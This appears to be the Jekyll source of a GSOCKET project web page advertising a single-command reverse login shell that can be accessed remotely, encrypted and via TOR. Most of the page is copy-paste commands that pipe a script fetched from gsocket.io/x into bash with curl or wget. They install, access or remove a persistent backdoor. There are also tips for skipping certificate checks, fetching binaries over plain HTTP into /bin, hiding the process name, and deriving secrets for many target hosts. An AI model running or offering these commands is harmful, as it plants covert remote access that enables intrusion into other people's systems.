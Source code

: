 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_, _uninstall_, and _access_:

<!-- This is obviously the tabs wrapper -->
<div class="tabs-wrapper">
    <!-- And here the tabs container -->
    <div class="tabs">
        <!-- This is the first tab -->
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-init" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
<!--
This is how to reproduce the syntax highlighting with "rouge"
You must respect this weird placement to avoid extra rendered space
See here for more details:
https://jekyllrb.com/docs/liquid/tags/#code-snippet-highlighting
-->
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <!-- This is the second tab -->
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

<div class="tabs-wrapper">
    <div class="tabs" style="height: 12.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
wget --no-check-certificate -qO- https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

<div class="tabs-wrapper">
    <div class="tabs" style="height: 35.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="curl-advanced" class="tab-switch" checked>
            <label for="curl-advanced" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="wget-advanced" class="tab-switch">
            <label for="wget-advanced" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>

<!-- Tooltips test -->
<button class="copy-button test"><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button>

<script>
(() => {
    const testButton = document.querySelector('button.copy-button.test');
    testButton.addEventListener('click', (event) => {
        console.log('Click event received.', event);
    })
})
</script>

<!-- Adding some 'magic' on tabs ;) -->
<script>
(() => {
    const tabsSelector = 'input.tab-switch';
    const tabsDebug = false;
    document.querySelectorAll(tabsSelector).forEach((el) => {
        const id = el.id;
        const type = id.split('-')[0];
        if (tabsDebug === true) {
            console.log('[change] event listener attached on', id, '- type:', type);
        }
        el.addEventListener('change', (event) => {
            if (tabsDebug === true) {
                console.log('Change event triggered.', event);
            }
            let targetTabs = String(event.target.id).includes(type) ? type : 'undefined';
            if (tabsDebug === true) {
                console.log(`Should select other [${targetTabs}] tabs.`);
            }
            document.querySelectorAll(tabsSelector).forEach((target) => {
                if (String(target.id).includes(targetTabs) && !target.checked) {
                    target.checked = true;
                }
            });
        });
    });
})();
</script>

<!-- Adding some other 'magic' on code snippets :P -->
<!--
Todo: Add CSS tooltips
From: https://www.w3schools.com/css/css_tooltip.asp
Comment: Yes, I'm lazy and don't remind everything. Don't blame me.
Goal: Keep things as light as possible.
-->
<script>
(() => {
    // Copy icon from GitHub Primer
    // https://primer.style/design/foundations/icons

    /* const copyIcon16 = '<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 16 16" width="16" height="16"><path d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 0 1 0 1.5h-1.5a.25.25 0 0 0-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 0 0 .25-.25v-1.5a.75.75 0 0 1 1.5 0v1.5A1.75 1.75 0 0 1 9.25 16h-7.5A1.75 1.75 0 0 1 0 14.25Z"></path><path d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0 1 14.25 11h-7.5A1.75 1.75 0 0 1 5 9.25Zm1.75-.25a.25.25 0 0 0-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 0 0 .25-.25v-7.5a.25.25 0 0 0-.25-.25Z"></path></svg>';
    const copyIcon24 = '<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" width="24" height="24"><path d="M7.024 3.75c0-.966.784-1.75 1.75-1.75H20.25c.966 0 1.75.784 1.75 1.75v11.498a1.75 1.75 0 0 1-1.75 1.75H8.774a1.75 1.75 0 0 1-1.75-1.75Zm1.75-.25a.25.25 0 0 0-.25.25v11.498c0 .139.112.25.25.25H20.25a.25.25 0 0 0 .25-.25V3.75a.25.25 0 0 0-.25-.25Z"></path><path d="M1.995 10.749a1.75 1.75 0 0 1 1.75-1.751H5.25a.75.75 0 1 1 0 1.5H3.745a.25.25 0 0 0-.25.25L3.5 20.25c0 .138.111.25.25.25h9.5a.25.25 0 0 0 .25-.25v-1.51a.75.75 0 1 1 1.5 0v1.51A1.75 1.75 0 0 1 13.25 22h-9.5A1.75 1.75 0 0 1 2 20.25l-.005-9.501Z"></path></svg>';
    const copyIconEncoded = `data:image/svg+xml;base64,${btoa(copyIcon16)}`; */

    const snippets = document.querySelectorAll('figure.highlight pre');
    snippets.forEach((snippet) => {
        console.log('Connected on element:', snippet);
        snippet.firstChild.insertAdjacentHTML(
            'beforebegin',
            // '<button class="copy-button" data-clipboard-snippet><img width="16" src="' + copyIconEncoded + '" alt="Copy to clipboard" title="Copy to clipboard"></button>'
            '<button class="copy-button" data-clipboard-snippet><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button>'
        );
    });
    
    const clipboardSnippets = new ClipboardJS('[data-clipboard-snippet]', {
        target: (trigger) => {
            return trigger.nextElementSibling; // 'nextElementSibling' is used because the button is placed before the other elements
        }
    });
    
    clipboardSnippets.on('success', function(e){
        e.clearSelection();
        console.log('Received [success] event.', e);
        console.log('Action:', e.action);
        console.log('Text:', e.text);
        console.log('Trigger:', e.trigger);
        // showTooltip(e.trigger,'Copied!');
    });

    clipboardSnippets.on('error', function(e){
        console.log('Received [error] event.', e);
        console.error('Action:', e.action);
        console.error('Trigger:', e.trigger);
        // showTooltip(e.trigger,fallbackMessage(e.action));
    });
})();
</script>